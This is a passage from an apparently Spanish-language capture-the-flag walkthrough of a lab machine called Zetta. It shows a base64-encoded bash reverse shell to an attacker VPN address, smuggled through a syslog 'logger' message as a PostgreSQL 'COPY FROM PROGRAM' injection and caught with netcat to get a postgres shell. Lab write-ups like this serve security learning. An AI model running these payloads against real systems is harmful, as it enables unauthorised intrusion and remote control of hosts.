 entonces me pondré con tcpdump a la escuche de trazas por mi interfaz tun0 que es la de la vpn y si le damos al enter vemos que tenemos traza icmp, ya no nos reporta errores en los logs y por lo tanto hay una ejecución remota de comandos :D!
![](/assets/img/commons/Zetta/terminal11.png)
Me voy a enviar una reverse shell a mi equipo pero en base64 para que no me de problemas a la hora de colocar el one liner de la reverse shell
```console
$ echo -n "bash -i >& /dev/tcp/10.10.14.7/443 0>&1" | base64;echo
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43LzQ0MyAwPiYx
```
ahora esta cadena la voy copiar y sustituir en donde esta la traza decodificandolo en base64 y pipearlo con bash para que se me interprete

```console
roy@zetta:~$ logger -p local7.info "NULL',NULL); DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM \$$ echo \"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43LzQ0MyAwPiYx\" | base64 -d | bash \$$;-- -"
```
me pondré en escucha con netcat para entablarme una reverse shell 
![](/assets/img/commons/Zetta/terminal12.png)
y tenemos una shell como el usuario postgres